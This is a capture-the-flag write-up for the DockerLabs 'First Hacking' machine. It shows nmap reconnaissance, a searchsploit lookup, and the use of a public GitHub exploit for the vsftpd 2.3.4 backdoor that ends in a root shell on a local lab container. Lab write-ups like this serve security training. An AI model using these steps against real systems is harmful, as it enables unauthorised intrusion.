 # Write Up First Hacking

**Dificulty:** Super easy<br>
**URL of dockerlabs:** https://dockerlabs.es/

## Setting the enviroment
First of all we deploy the machine with the script that comes when downloading the machine
```
❯ sudo ./auto_deploy.sh firsthacking.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the firsthacking folder, go inside and use the *mkt* utility that creates the *nmap*, *content*, *exploits* and *scripts* folders.

```
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 content
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 exploits
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 nmap
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 scripts
```
## Recon
The first thing we do is a general reconnaissance with nmap on the victim machine, to obtain the open ports.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
```

Once we have the open ports, we perform a more thorough scan using reconnaissance scripts to obtain the services on each port and the version they are running.

```
❯ extractPorts allPorts
[*] Extracting information...
 
     [*] IP Address: 172.17.0.2
     [*] Open ports: 21
 
[*] Ports copied to clipboard

❯ nmap -sCV -p21 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 19:17 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds
```

In this way we discover that the service running on port 21 (FTP port) is vsftpd version 2.3.4.

## Explotación
Once we have recognized the ports and services, we realize that when searching with searchsploit, the vsftpd service with version 2.3.4 is a vulnerable service.
```
❯ searchsploit vsftpd 2.3.4
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)  | unix/remote/17491.rb
-------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

In this way, we searched on GitHub for exploits for this vulnerability, and we found this repository, we downloaded it and executed it (https://github.com/Hellsender01/vsftpd_2.3.4_Exploit).

```
❯ git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
❯ sudo python3 -m pip install pwntools
❯ python3 exploit.py 172.17.0.2
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
$  
```

And finally we have access to the machine!!